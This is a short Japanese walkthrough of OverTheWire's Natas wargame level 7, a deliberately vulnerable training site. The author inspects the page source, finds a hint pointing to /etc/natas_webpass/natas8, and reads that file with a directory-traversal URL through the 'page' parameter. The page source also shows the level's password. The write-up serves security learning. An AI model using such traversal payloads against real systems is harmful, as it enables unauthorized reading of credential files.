



```

Natas Level 6 → Level 7

Username: natas7
URL:      http://natas7.natas.labs.overthewire.org

```





"Home"や"About"ボタンがあるので押下してみる。  

  
  

ソースコードを見てみる。  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

`/etc/natas_webpass/natas8`にpasswordがあるらしい。  


`page`パラメータに対する、ディレクトリトラバーサル攻撃を行う。  

```
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8
```


ソースコード表示  

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
*******************************

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

クリア
